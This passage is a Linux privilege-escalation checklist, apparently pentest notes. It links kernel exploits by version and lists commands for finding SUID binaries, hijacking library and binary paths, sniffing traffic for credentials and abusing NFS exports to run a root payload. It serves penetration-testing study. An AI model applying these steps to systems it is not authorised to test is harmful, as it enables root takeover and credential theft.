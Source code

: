     *   Kernel Exploits
        *   `uname -a && cat /etc/*-release` → Exploit Research
        *   [Old Kernels](https://github.com/lucyoa/kernel-exploits) (3.x - 4.x)
        *   [DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git) (5.8 - 5.17)
        *   CVE-2021-22555 (2.6 - 5.11)
        *   [CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233) (6.x < 6.3.1)
        *   [CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386) (Ubuntu 22.04 - 5.15.x)
        *   DMESG Signature EOP → `dmesg 2>/dev/null | grep "signature"` → [Exploitation](https://0xdf.gitlab.io/2019/12/14/htb-smasher2.html)
    *   SUID / CAP Binaries
        *   `find / -perm -4000 2>/dev/null` → Non-Default / SUID3Enum / WinPEAS
        *   `getcap -r / 2>/dev/null`
        *   Exploitation
            *   GTFOBin Escape
            *   PATH Hijacking               → Relative/Current Paths + `strings` 
            *   [Function Hijacking](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#suid-binary-with-command-path)      → Absolute Binary Paths
            *   SO Injection                     → `strace [BINARY] 2>&1 | grep -i -E "open|access|no such file"`
            *   RPATH Hijacking            → `readelf -d [BINARY] | grep -E "NEEDED|RPATH"`
            *   LDD PATH Hijacking     → `ldd [BINARY]` / Writable `/etc/ld.so.conf.d` + `/etc/ld.so.conf`
            *   Bash Scripts                     → Writable File / Argument Injections / [Wildcards](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html) / Vulnerable Binary / Unquoted Comparison `""`
            *   Python Scripts                → Writable File / Vulnerable Library / Library `sys.path` Hijacking / Argument Injections / [Wildcards](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html)
            *   Custom                             → RE Analysis (Ghidra) / Local & [Remote](https://gist.github.com/Reodus/153373b38b7b54b3e3034cb14122f18a) BOF / ChatGPT Script Analysis / Filetype & Metadata
    *   Processes
        *   `ps -aux | grep [root/username]`
        *   `pspy -pf -i 1000` → Process Spying
        *   Exploits
            *   Fail2Ban / Apache Struts / Logrotate / Web Debuggers
            *   Privileged Scripts   → SUDO / SUID Sections Checks
            *   Command Strings → Sensitive Exposure
            *   Associated Services / Binaries
            *   Memory Dumping
    *   Network 
        *   Local Services 
            *   `netstat -puntal`       → `127.0.0.1` / Intranet IPs
            *   Associated Process  → `ps -p [SERVICE_PID] -o command` → Check Privilege / Process String
            *   Configuration Files  → All Services + Permissions (MySQL → `my.cnf`)
            *   DB Access                  → Data Dumping / Blank Password / [UDF Escalation](https://juggernaut-sec.com/mysql-user-defined-functions/)
            *   Local Forwarding
        *   [Dynamic Forwarding](https://notes.dollarboysushil.com/pivoting-and-tunneling/ligolo-ng)
            *   `ifconfig` / `ip route` → Ligolo Tunnel
            *   Local Sweep
                *   Valid for `/24` → Adjust Accordingly
                *   `for i in {1..255} ;do (ping -c 1 [INTRANET_CIDR_BLOCK].$i | grep "bytes from"|cut -d ' ' -`  
                    `f4|tr -d ':' &);done`
        *   Traffic Sniffing
            *   `tcpdump -i [NIC] -nn -s0 -v port [PORT] -w [OUT_PCAP]`
            *   `Pcredz.py`
            *   PCAP Wireshark Analysis → All Unencrypted Protocols + [MySQL Hashes](https://0xma.github.io/hacking/toby_crack_mysql_hashes.html)
        *   NFS Exports
            *   Data Access / Root Squashing
            *   `cat /etc/exports`             → `sudo mount -t nfs [VICTIM_IP]:/[SHARED_NFS] /mnt`
            *   `cp [PAYLOAD_FILE] /mnt` → `chmod u+s /mnt/[PAYLOAD_FILE]` → Execute Payload
    *   Service Files
        *   `find / -type f -iname "*.service" [-writable/-readable] -exec ls -l {} \; 2>/dev/null`
        *   Writable ExecStart